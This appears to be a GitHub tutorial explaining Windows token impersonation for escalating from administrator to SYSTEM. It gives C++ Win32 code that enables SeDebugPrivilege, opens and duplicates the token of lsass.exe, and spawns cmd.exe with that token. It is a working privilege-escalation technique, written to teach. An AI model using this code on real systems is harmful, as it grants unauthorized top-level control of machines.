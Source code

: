 # System Token Impersonation

## Tokens

Each process has its own corresponding [_EPROCESS](https://www.vergiliusproject.com/kernels/x64/Windows%2010%20%7C%202016/2110%2021H2%20(November%202021%20Update)/_EPROCESS) in kernel, it contains all the information about a process, includin it's PID, loaded modules, virtual address space and much more information. Today we will focus on a field which can be found deep down in _EPROCESS, which is the [_TOKEN](https://www.vergiliusproject.com/kernels/x64/Windows%2010%20%7C%202016/2110%2021H2%20(November%202021%20Update)/_TOKEN) structures. It contains a token that contains the information about the rights a process has, it tells wether a process runs as user, admin or system. We will now focus on going from admin to system.

## Steps

Before doing anything else, we will need to grant our own process the `SeDebugPrivilege` privilege, it is the highest rights a usermode process can have. We can do so by looking up the `LUID` value corresponding to SeDebugPrivilege by using `LookupPrivilegeValueA`. We can then set the luid of our own token to it and call `AdjustTokenPrivileges` to apply the new token to ourselves :

```cpp
bool enable_debug_priv(HANDLE hToken)
{
	TOKEN_PRIVILEGES token_priv;
	LUID luid;

	if (!LookupPrivilegeValueA(0, "SeDebugPrivilege", &luid))
		return false;

	token_priv.PrivilegeCount = 1;
	token_priv.Privileges[0].Luid = luid;
	token_priv.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

	if (AdjustTokenPrivileges(hToken, FALSE, &token_priv, sizeof(TOKEN_PRIVILEGES), (PTOKEN_PRIVILEGES)0, (PDWORD)0))
		return true;
	else
		return false;
}
```
\
Our target process needs to have system rights, we will need to open a handle to it, and to it's token. Of course, we can't do these to the system process with pid 4. However we can do it on other processes that have the required rigths such as `winloging.exe` or `lsass.exe`. Here is the general idea :

![image](https://media.discordapp.net/attachments/780153367305256981/1019982190114766929/unknown.png?width=593&height=605)
\

In this example we first open a handle to lsass with the most limited information possible which are PROCESS_QUERY_INFORMATION. We can then open a handle to the token of that process using `OpenProcessToken` with flags, the main one being TOKEN_DUPLICATE which we will need later. We then call `ImpersonateLoggedOnUser` which is needed for token impersonation. So far we have this :

```cpp
OpenProcess(PROCESS_QUERY_INFORMATION, TRUE, PID);
OpenProcessToken(hProcess, TOKEN_DUPLICATE | TOKEN_ASSIGN_PRIMARY | TOKEN_QUERY, &hToken);
ImpersonateLoggedOnUser(hToken);
```


Now for the most intereseting part, we will use `DuplicateTokenEx` to, as the name suggests, duplicate the token of the target process and store it: 

```cpp
DuplicateTokenEx(hToken, TOKEN_ADJUST_DEFAULT | TOKEN_ADJUST_SESSIONID | TOKEN_QUERY |
    TOKEN_DUPLICATE | TOKEN_ASSIGN_PRIMARY, 0, SecurityImpersonation, TokenPrimary, &hDupToken);
```

We can then use the `CreateProcessWithTokenW` (no ANSI version 👎) to spwan a process, and specify the token that it wll have when created. We wll supplu the token we duplcated earlier : 

```cpp
CreateProcessWithTokenW(hDupToken, LOGON_WITH_PROFILE, L"C:\\Windows\\System32\\cmd.exe", 0, 0, 0, 0, 
    (LPSTARTUPINFOW)&startup_info, &process_info);
```

## Showcase

![image](https://cdn.discordapp.com/attachments/780153367305256981/1020005729031180411/demo_token.gif)
